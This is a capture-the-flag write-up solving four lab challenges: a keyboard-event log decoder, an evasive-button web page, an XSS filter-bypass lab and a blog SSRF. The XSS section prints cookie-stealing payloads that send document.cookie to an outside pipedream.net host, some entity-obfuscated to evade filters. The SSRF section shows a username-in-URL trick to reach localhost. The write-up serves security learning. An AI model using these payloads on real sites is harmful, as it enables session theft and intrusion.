


# 3v3ntl0g

## Description
We were able to infiltrate a WebTopia server! However, our hacking skills are not very good... We were only able to read from the keyboard input driver. Here is the data we collected, can you have a look? It seems that is has been shuffled a bit though... Also, WebTopia freaks are frenchies, and they use an AZERTY keyboard, just in case you need that information...

## Solution 
Here, they have given us a `shuffled.bin` file which we have to decipher and get the flag.

Since they've written it in `AZERTY` format, we have to map it correctly to `QWERTY`, including the mappings for `ctrl` and `altgr` key states.
Writing a Python script- 
```Python
import struct
import sys
from pathlib import Path

def read_events(binary_file: str):
    buf = Path(binary_file).read_bytes()
    nb_entries = len(buf) // 24
    events = []
    offset = 0

    for _ in range(nb_entries):
        tv_sec, tv_usec, ev_type, code, value = struct.unpack_from('<qqHHI', buf, offset)
        events.append((tv_sec, tv_usec, ev_type, code, value))
        offset += 24

    return events

def reconstruct_text(events):
    code_to_char = {
        19: ('r', 'R', None),
        20: ('t', 'T', None),
        21: ('y', 'Y', None),
        22: ('u', 'U', None),
        25: ('p', 'P', None),
        31: ('s', 'S', None),
        32: ('d', 'D', None),
        35: ('h', 'H', None),
        46: ('c', 'C', None),
        49: ('n', 'N', None),
        50: (',', '?', None),
        2: ('&', '1', None),
        3: ('é', '2', None),
        4: ('"', '3', None),
        5: ("'", '4', '{'),
        6: ('(', '5', '['),
        7: ('-', '6', None),
        8: ('è', '7', None),
        9: ('_', '8', None),
        10: ('ç', '9', None),
        11: ('à', '0', None),
        12: (')', '-', None),
        13: ('=', '+', '}'),
    }

    CODE_LEFT_SHIFT = 42
    CODE_RIGHT_SHIFT = 54
    CODE_ALTGR = 100
    CODE_LEFT_CTRL = 29
    sorted_events = sorted(events, key=lambda e: (e[0], e[1]))

    shift_active = False
    altgr_active = False
    text = ""

    for tv_sec, tv_usec, ev_type, code, value in sorted_events:
        if ev_type != 1:
            continue
        if code in (CODE_LEFT_SHIFT, CODE_RIGHT_SHIFT):
            if value == 1:
                shift_active = True
            elif value == 0:
                shift_active = False
            continue

        if code == CODE_ALTGR:
            if value == 1:
                altgr_active = True
            elif value == 0:
                altgr_active = False
            continue

        if code == CODE_LEFT_CTRL:
            if value == 1:
                break
            else:
                continue

        if value != 1:
            continue

        if code in code_to_char:
            no_shift, with_shift, with_altgr = code_to_char[code]
            if altgr_active and (with_altgr is not None):
                ch = with_altgr
            elif shift_active:
                ch = with_shift
            else:
                ch = no_shift
            text += ch

    return text

if __name__ == '__main__':
    if len(sys.argv) > 1:
        file = sys.argv[1]
    else:
        file = 'shuffled.bin'

    if not Path(file).is_file():
        print(f"Error: the file '{file}' does not exist.")
        sys.exit(1)

    events = read_events(file)
    flag = reconstruct_text(events)

    print(flag)
```

We then obtain the flag: `N0PS{c4n_y0U_R34d_Th15??}`

# Press Me If U can

## Description
-"Stop chasing me!" said the button.

-"We can't. It's our job." they answered.

Trapped in WebTopia on a page with no way out, except for the fleeing button. Can you break free?

## Solution
We've been given with a site which looks like this.


As given in the description, we can't click the button as it goes away from our mouse pointer.
Going to the Networks tab in Dev tools and viewing script.js-
```js
const btn = document.querySelector("button");
const OFFSET = 100;

const testEdge = function (property, axis) {
if (endPoint[property] <= 0) {
    endPoint[property] = axis - OFFSET;
} else if (endPoint[property] >= axis) {
    endPoint[property] = OFFSET;
}
};

let endPoint = { x: innerWidth / 2, y: innerHeight * 2 / 3 };

addEventListener("mousemove", (e) => {
const btnRect = btn.getBoundingClientRect();

const angle = Math.atan2(e.y - endPoint.y, e.x - endPoint.x);

const distance = Math.sqrt(
    Math.pow(e.x - endPoint.x, 2) + Math.pow(e.y - endPoint.y, 2)
);

if (distance <= OFFSET) {
    endPoint = {
    x: OFFSET * -Math.cos(angle) + e.x,
    y: OFFSET * -Math.sin(angle) + e.y
    };
}
```

We can see that the button is assigned in the `button` class. Now going to the console tab and writing `document.querySelector('button').click();`
and we get the flag: `N0PS{W3l1_i7_w4S_Ju5T_F0r_Fun}`

# XSS Lab
## Description
We got an access to a training resource from WebTopia, where they practise XSS filter bypassing. Enjoy it!

## Solution
In this challenge, we have 4 levels to cross and each level we have to steal the cookies.


Each of the payloads for each level:
```html
<script>fetch("https://eo4ai5xu7yjhnob.m.pipedream.net?c="+document.cookie)</script>


<iframe src=jaVa&#x73;cript:top.location='//eo4ai5xu7yjhnob.m.pipedream.net/?c='+document.cookie>

<iframe src=jaVa&#x73;cript:top.location=&#x27;&#x2f;&#x2f;eo4ai5xu7yjhnob.m.pipedream.net&#x2f;&#x3f;c&#x3d;&#x27;&#x2b;docu&#109;ent.co&#111;kie>
```
for each of the filters:
```python
def filter_2(payload):
    regex = ".*(script|(</.*>)).*"
    if re.match(regex, payload):
return "Nope"
    return payload

def filter_3(payload):
    regex = ".*(://|script|(</.*>)|(on\w+\s*=)).*"
    if re.match(regex, payload):
return "Nope"
    return payload

def filter_4(payload):
    regex = "(?i:(.*(/|script|(</.*>)|document|cookie|eval|string|(\"|'|`).*(('.+')|(\".+\")|(`.+`)).*(\"|'|`)).*))|(on\w+\s*=)|\+|!"
    if re.match(regex, payload):
return "Nope"
    return payload
```

give the endpoints for next levels:
```
xss2=/0d566d04bbc014c2d1d0902ad50a4122	
xss3=/5d1aaeadf1b52b4f2ab7042f3319a267
xss4=/b355082fc794c4d1d2b6c02e04163090
```
and passing the last level we get: `flag=N0PS{n0w_Y0u_4r3_x55_Pr0}`

# Blog 
## Description
It seems that WebTopia deployed a blog for all its inhabitants. Can you investigate on it ?

## Solution
I landed on this simple-looking blog site — nothing too fancy, just three posts with titles like:
```
How to deal with cuckroaches?
My guide to cook chick
A Desolate Cry for Help
```
And in the `/blog.php` endpoint you can filter by writing `/blog.php?blog=all`
```
[
  {"id":"1","title":"How to deal with cuckroages ?","name":"oggy"},
  {"id":"2","title":"My guide to cook chick","name":"sylvester"},
  {"id":"3","title":"A Desolate Cry for Help","name":"tom_the_cat"}
]
```
Now we try to break the id parameter by writing ```/blog.php?blog='"`{ ;$Foo}```
and PHP gives an error saying: Fatal error: curl_setopt(): cURL option must not contain any null bytes

Wait, curl? This thing is making server-side HTTP requests to:
```curl_setopt($ch, CURLOPT_URL, 'backend/' . $blog);```
This seems like a SSRF challenge

Trying a NoSQL-style input: `/blog.php?blog[$ne]=null` results in:
```str_starts_with(): Argument #1 ($haystack) must be of type string, array given```

So it might be doing
```if (str_starts_with($blog, "http://"))```
Which means if the blog param starts with http://, it treats it as a full URL and passes it to curl.

But there are filters in it, as while trying `/blog.php?blog=http://localhost/` we got hit with:

Warning: Request should only be sent to backend host.
Okay, so the site is filtering SSRF targets. Probably something like:
```
if (!str_contains($url, 'backend')) {
  die("Warning: Request should only be sent to backend host.");
}
```
Tried:

/blog.php?blog=http://backend@127.0.0.1/
 No warning!  SSRF request went through and got redirected to the index page.


This works as it is an old SSRF trick using Basic Auth syntax in URLs: `http://[username]@[host]/path`
So `http://backend@127.0.0.1:8080/` is interpreted by the browser or curl (and PHP under the hood) as:
```
backend = username
127.0.0.1:8080 = actual host
```
The username is ignored by the server if there’s no password challenge.
Now trying all the possible ports:
```
/blog.php?blog=http://backend@127.0.0.1:5000/
/blog.php?blog=http://backend@127.0.0.1:8000/
/blog.php?blog=http://backend@127.0.0.1:1337/
```
We finally get the correct port: `/blog.php?blog=http://backend@127.0.0.1:8080/` and we get the flag: `N0PS{S5rF_1s_Th3_n3W_W4y}`